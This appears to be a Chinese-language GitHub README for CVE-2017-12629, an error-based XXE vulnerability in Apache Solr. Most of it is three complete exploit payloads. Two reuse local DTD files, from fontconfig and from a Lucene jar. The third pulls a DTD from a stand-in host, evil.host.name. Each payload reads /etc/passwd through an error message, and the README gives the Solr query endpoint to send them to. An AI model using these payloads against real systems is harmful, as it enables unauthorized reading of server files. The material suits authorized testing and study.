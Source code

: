 # CVE-2017-12629-XXE

一个Error Based XXE，3种利用方式



1. 利用操作系统上已有的dtd文件。比如Docker官方openjdk镜像，其安装了fontconfig-config这个包，这个包就包含一个dtd文件/usr/share/xml/fontconfig/fonts.dtd：

   ```xml
   <?xml version="1.0" ?>
   <!DOCTYPE message [
       <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
   
       <!ENTITY % expr 'aaa)>
           <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
           <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
           &#x25;eval;
           &#x25;error;
           <!ELEMENT aa (bb'>
   
       %local_dtd;
   ]>
   <message>any text</message>
   ```

   

2. 利用应用内部的dtd文件。比如比如Solr依赖的lucene-queryparser.jar中包含的LuceneCoreQuery.dtd：

   ```xml
   <?xml version="1.0" ?>
   <!DOCTYPE message [
       <!ENTITY % local_dtd SYSTEM "jar:file:///opt/solr/server/solr-webapp/webapp/WEB-INF/lib/lucene-queryparser-7.0.1.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd">
   
       <!ENTITY % queries 'aaa)>
           <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
           <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
           &#x25;eval;
           &#x25;error;
           <!ELEMENT aa (bb'>
   
       %local_dtd;
   ]>
   <message>any text</message>
   ```

   

3. 利用远程dtd文件（出网）

   ```xml
   #服务器上放一个dtd
   
   <!ENTITY % test "example">
   <!ELEMENT pattern (%test;)>
   
   ```

   

   


   ```xml
   <?xml version="1.0" ?>
   <!DOCTYPE message [
       <!ENTITY % local_dtd SYSTEM "http://evil.host.name/include.dtd">
   
       <!ENTITY % test 'aaa)>
           <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
           <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
           &#x25;eval;
           &#x25;error;
           <!ELEMENT aa (bb'>
   
       %local_dtd;
   ]>
   <message>any text</message>
   ```

   

   





url编码后访问`http://localhost:8983/solr/demo/select?wt=xml&defType=xmlparser&q=xxxxxxxxxxxxxxx`

